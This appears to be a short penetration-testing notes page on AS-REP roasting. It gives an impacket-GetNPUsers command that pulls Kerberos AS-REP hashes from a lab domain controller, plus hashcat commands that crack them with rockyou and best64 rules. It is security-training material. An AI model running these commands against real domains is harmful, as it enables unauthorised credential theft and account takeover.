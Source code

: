 ```yaml
---
tags:
---
```

# GetNPUsers

Queries target domain for users with 'Do not require Kerberos preauthentication' enabled and export their TGTs for cracking ([AS-REP roasting](https://www.youtube.com/watch?v=EVdwnBFtUtQ))

## Capabilities

```bash
# Pull 
impacket-GetNPUsers -request -dc-ip 192.168.50.70 -outputfile hashes.asreproast corp.com/pete
```

Crack the hash in hashcat

```
kali@kali:~$ hashcat --help | grep -i "Kerberos"
  19600 | Kerberos 5, etype 17, TGS-REP                       | Network Protocol
  19800 | Kerberos 5, etype 17, Pre-Auth                      | Network Protocol
  19700 | Kerberos 5, etype 18, TGS-REP                       | Network Protocol
  19900 | Kerberos 5, etype 18, Pre-Auth                      | Network Protocol
   7500 | Kerberos 5, etype 23, AS-REQ Pre-Auth               | Network Protocol
  13100 | Kerberos 5, etype 23, TGS-REP                       | Network Protocol
  18200 | Kerberos 5, etype 23, AS-REP                        | Network Protocol
```

```bash
hashcat -m 18200 hashes.asreproast /usr/share/wordlists/rockyou.txt --force
hashcat -m 18200 hashes.asreproast /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force

.\hashcat.exe -m 18200 hashes\pen-200\hashes.asreproast wordlists\rockyou.txt -r rules\best64.rule --force
```
